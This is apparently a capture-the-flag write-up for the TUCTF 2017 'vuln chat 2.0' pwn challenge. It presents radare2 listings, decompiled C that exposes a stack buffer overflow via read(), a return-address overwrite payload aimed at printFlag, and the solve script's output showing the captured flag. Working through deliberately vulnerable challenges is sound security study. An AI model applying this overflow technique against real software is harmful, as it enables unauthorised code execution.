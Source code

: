# vuln chat 2.0
100 point  
  
Djinn has got some new intel for us. And I think he's giving us a second chance. But he will only speak with you. Let's see what he's got to say.  
  
nc vulnchat2.tuctf.com 4242  
  
[vuln-chat2.0](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat%202.0/vuln-chat2.0) - md5: d0fe412783aaaeeddc2a6504d6dff631  
libc.so.6 - md5: f71e966c590bfb1f53ea3410f8b489d4  
------------------

```radare2
[0x08048460]> iz
vaddr=0x08048750 paddr=0x00000750 ordinal=000 sz=50 len=49 section=.rodata type=ascii string=----------- Welcome to vuln-chat2.0 -------------
vaddr=0x08048782 paddr=0x00000782 ordinal=001 sz=22 len=21 section=.rodata type=ascii string=Enter your username:
vaddr=0x08048798 paddr=0x00000798 ordinal=002 sz=5 len=4 section=.rodata type=ascii string=%15s
vaddr=0x0804879d paddr=0x0000079d ordinal=003 sz=13 len=12 section=.rodata type=ascii string=Welcome %s!\n
vaddr=0x080487aa paddr=0x000007aa ordinal=004 sz=22 len=21 section=.rodata type=ascii string=Connecting to 'djinn'
vaddr=0x080487c0 paddr=0x000007c0 ordinal=005 sz=37 len=36 section=.rodata type=ascii string=--- 'djinn' has joined your chat ---
vaddr=0x080487e8 paddr=0x000007e8 ordinal=006 sz=67 len=66 section=.rodata type=ascii string=djinn: You've proven yourself to me. What information do you need?
vaddr=0x0804882b paddr=0x0000082b ordinal=007 sz=5 len=4 section=.rodata type=ascii string=%s:
vaddr=0x08048830 paddr=0x00000830 ordinal=008 sz=32 len=31 section=.rodata type=ascii string=djinn: Alright here's you flag:
vaddr=0x08048850 paddr=0x00000850 ordinal=009 sz=30 len=29 section=.rodata type=ascii string=djinn: flag{1_l0v3_l337_73x7}
vaddr=0x08048870 paddr=0x00000870 ordinal=010 sz=31 len=30 section=.rodata type=ascii string=djinn: Wait thats not right...
vaddr=0x0804888f paddr=0x0000088f ordinal=011 sz=13 len=12 section=.rodata type=ascii string=Ah! Found it
vaddr=0x0804889c paddr=0x0000089c ordinal=012 sz=20 len=19 section=.rodata type=ascii string=/bin/cat ./flag.txt
vaddr=0x080488b0 paddr=0x000008b0 ordinal=013 sz=35 len=34 section=.rodata type=ascii string=Don't let anyone get ahold of this
```
```radare2
[0x08048460]> afl~printFlag
0x08048672    1 65           sym.printFlag
```
```C
int doThings()
{
  char buf; // [sp+1h] [bp-27h]@1
  char v2; // [sp+15h] [bp-13h]@1

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", &v2);
  printf("Welcome %s!\n", &v2);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", &v2);
  read(0, &buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```
`char buf; // [sp+1h] [bp-27h]@1`  
`read(0, &buf, 0x2Du);`  
`payload = "1" * (0x27 + 4) + printFlag()`  
```bash
# python solve.py
[+] Opening connection to vulnchat2.tuctf.com on port 4242: Done
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
TUCTF{0n3_by73_15_4ll_y0u_n33d}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
$
```
